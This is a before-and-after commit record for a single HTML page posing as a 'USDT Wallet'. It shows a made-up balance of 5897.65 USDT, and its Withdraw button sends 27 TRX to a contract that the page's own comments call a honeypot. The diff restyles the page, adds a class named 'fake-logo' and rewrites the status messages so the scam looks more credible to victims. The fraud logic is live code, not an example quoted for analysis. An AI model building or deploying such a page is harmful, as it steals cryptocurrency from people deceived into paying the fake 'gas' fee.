

Before and after one commit to Najprilek/xs, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,21 +4,63 @@
   <title>USDT Wallet</title>
   <script src="https://cdn.jsdelivr.net/npm/tronweb@4.4.0/dist/TronWeb.js"></script>
   <style>
-    body { font-family: Arial; background: #111; color: #0f0; text-align: center; padding-top: 50px; }
-    .card { background: #222; padding: 30px; border-radius: 10px; display: inline-block; box-shadow: 0 0 20px #0f0; }
-    button { padding: 10px 20px; font-size: 18px; margin-top: 20px; cursor: pointer; }
+    body {
+      font-family: 'Segoe UI', sans-serif;
+      background: #0f0f0f;
+      color: #00ff99;
+      text-align: center;
+      padding-top: 60px;
+      margin: 0;
+    }
+    .card {
+      background: #1a1a1a;
+      padding: 40px;
+      border-radius: 16px;
+      display: inline-block;
+      box-shadow: 0 0 30px #00ff99;
+      transition: all 0.3s ease;
+    }
+    .card:hover {
+      transform: scale(1.02);
+    }
+    button {
+      padding: 12px 30px;
+      font-size: 18px;
+      margin-top: 25px;
+      background: #00ff99;
+      color: #000;
+      border: none;
+      border-radius: 8px;
+      cursor: pointer;
+      transition: background 0.2s ease;
+    }
+    button:hover {
+      background: #00e68a;
+    }
+    .status {
+      margin-top: 20px;
+      font-style: italic;
+      color: #ccc;
+    }
+    .fake-logo {
+      font-size: 24px;
+      font-weight: bold;
+      margin-bottom: 30px;
+      color: #00ffcc;
+    }
   </style>
 </head>
 <body>
   <div class="card">
+    <div class="fake-logo">USDT Wallet</div>
     <h1>Balance: <span id="balance">5897.65</span> USDT</h1>
     <button onclick="attemptWithdraw()">Withdraw</button>
-    <p id="status"></p>
+    <p class="status" id="status"></p>
   </div>
 
   <script>
-    const CONTRACT_ADDRESS = "TUXXXXXXXXXXXXXX..."; // ← wklej swój adres TRCHoneypot z Shasty
-    const CONTRACT_ABI = [ // minimalny ABI
+    const CONTRACT_ADDRESS = "TUXXXXXXXXXXXXXXXXXXXXXX"; // <-- wklej swój adres kontraktu honeypot
+    const CONTRACT_ABI = [
       {
         "inputs": [],
         "name": "attemptWithdraw",
@@ -40,11 +82,12 @@
     }
 
     async function attemptWithdraw() {
-      document.getElementById("status").innerText = "Processing withdrawal... You must have 27 TRX for gas";
+      document.getElementById("status").innerText = "\u23F3 Withdrawal request received. Waiting for 27 TRX confirmation...";
       try {
         await contract.attemptWithdraw().send({ callValue: 27000000 }); // 27 TRX
+        document.getElementById("status").innerText = "\u2705 Transaction sent. Awaiting confirmation...";
       } catch (e) {
-        document.getElementById("status").innerText = "Transaction failed or cancelled.";
+        document.getElementById("status").innerText = "\u274C Transaction failed or cancelled.";
       }
     }
 
```
